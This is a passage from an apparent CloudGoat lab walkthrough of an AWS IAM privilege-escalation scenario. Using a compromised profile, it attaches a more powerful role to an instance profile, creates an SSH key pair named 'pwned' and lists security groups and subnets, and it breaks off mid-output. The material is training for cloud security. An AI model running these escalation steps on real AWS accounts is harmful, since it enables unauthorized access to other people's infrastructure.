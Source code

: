 ### Attach new role to instance profile
```shell
aws --profile kerrigan iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_### --role-name cg-ec2-mighty-role-iam_privesc_by_attachment_###
```

### Run new instance with modified instance profile
To run new instance, we need key pair to do ssh from our computer to the instance, security groups id for allowing us to ssh with port 22, instance profile arn, and subet ID.

#### Create key pair
```shell
aws --profile kerrigan ec2 create-key-pair --key-name pwned --query 'KeyMaterial' --output text > pwned.pem
```
This command will create key pair with name `pwned` and save private key to file `pwned.pem`

To be able to run ssh with private key `pwned.pem`, you need to change the file permission.
```shell
chmod 400 pwned.pem
```

#### Get security group
```shell
aws --profile kerrigan ec2 describe-security-groups
```

Result:
```json
{
 "SecurityGroups": [
        {
            "Description": "CloudGoat iam_privesc_by_attachment_### Security Group for EC2 Instance over HTTP",
            "GroupName": "cg-ec2-http-iam_privesc_by_attachment_###",
            "GroupId": "<security-group-id>"
        },
        {
            "Description": "CloudGoat iam_privesc_by_attachment_### Security Group for EC2 Instance over SSH",
            "GroupName": "cg-ec2-ssh-iam_privesc_by_attachment_###",
            "GroupId": "<security-group-id>"
        }
    ]
}
```
The scenario already provided us 2 security groups for HTTP and SSH request.

### List subnets
```shell
aws --profile kerrigan ec2 describe-subnets
```

Result:
```json
{
    "Subnets": [
        {
            "SubnetId": "<subnet-id>",
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_### Public Subnet"
                },
                {
                    "Key": "Stack",
```